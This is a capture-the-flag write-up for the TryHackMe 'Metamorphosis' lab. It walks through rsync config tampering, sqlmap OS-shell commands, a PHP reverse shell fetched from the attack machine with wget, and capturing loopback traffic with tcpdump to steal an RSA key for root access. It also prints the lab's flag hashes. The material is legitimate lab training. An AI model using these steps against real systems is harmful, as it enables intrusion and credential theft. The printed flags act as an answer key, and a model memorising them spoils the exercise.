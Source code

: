 ```yaml
---
title: Metmorphosis
layout: post
author: Bit Criminals Team
date: 2021-07-23 20:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/metamorphosis
---
```



On enumerating we get the following five open ports.

![](/images/Mars/meta1.png)  
  
On running gobuster we get
  
![](/images/Mars/meta2.png)  
 
Opening http://[IP]/admin we found

![](/images/Mars/meta3.png)

Checking the source code we found

![](/images/Mars/meta4.png)

Clearly, we had to change the back-end configuration of the website to 'development' mode.

We then used the rsync service available at port 873

On enumerating the rsync service we found this

![](/images/Mars/meta5.png)

We then listed the contents of Conf as follows

![](/images/Mars/meta6.png)

We then brought all the files to our local attack machine as follows

![](/images/Mars/meta7.png)

Checking the contents of each file at random I found the file webapp.ini interesting

![](/images/Mars/meta8.png)

From the hint we found at the source code, we modified the webapp.ini file. We changed the value of 'env' variable from 'prod' to 'dev'

![](/images/Mars/meta9.png)

Then we reuploaded this modified file into the server as follows

![](/images/Mars/meta10.png)

On refreshing the webpage we found this

![](/images/Mars/meta11.png)

In the webapp.ini file we also found a username and password. on using that username here, we find that the password is 'thecat' (we already)
But given the fact that there is only one input, the next thought was sqlinjection. Thus, we used sqlmap.

We ran the following command and found that the DBMS (Data Base Managament System) was run by mysql

```sqlmap -u http://[ip]/admin/config.php --data=username=tom --level=5 --risk=3```

Then to get the OS shell we ran the following command

```sqlmap -u http://[ip]/admin/config.php --data=username=tom --level=5 --risk=3 --os-shell```

After a long time, we finally got the shell

![](/images/Mars/meta14.png)

We then uploaded a php reverse shell. We uploaded the reverse shell via the http port of the attack machine
The following command was used in the attack machine
```python -m SimpleHTTPServer```
We then collected the payload on the other side using the command
```wget http://[ip of attack machine]:8000/reverse-shell.php```

We then loaded the url 'http://[box ip]/reverse-shell.php' with the suitable port to listen. Thus we got the shell. On simple navigation we found the user flag was

![](/images/Mars.meta13.png)

**4ce794a9d0019c1f684e07556821e0b0**


# Privelage escelation

We tried using the commad
```find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null```
But we didn't figure out how to escelate. So we downloaded linpeas.sh just like the reverse shell and then ran the script. But tihs time also we didn't get useful results. So we tried the 'pspy' script. From the results of this script we understnad that tcpdump was installed in the machine.

Thus we can only capture a packet. So we ran the pspy64 script and set up tcpdump to capture the packets.

For this we used the following command in one of the two separate terminals of the attack machine. Also note that all this was done in the /tmp folder so that things don't get messed up :)

```tcpdump -i lo -v -w capture.png```

By the time we got around 40 packets we stopped the capture. We then copied capture.pcap to the /var/www/html directory as the user is www-data. We then loaded the URL 'http://[box ip]/capture.pcap'. Thus, we could download the captured file.

We then opened the file using wireshark and followed the TCP stream. We found an RSA privet key

![](/images/Mars/meta15.png)

We logged in as root through ssh using this privet key. We became the root!

![](/images/Mars/meta16.png)

**7ffca2ec63534d165525bf37d91b4ff4**
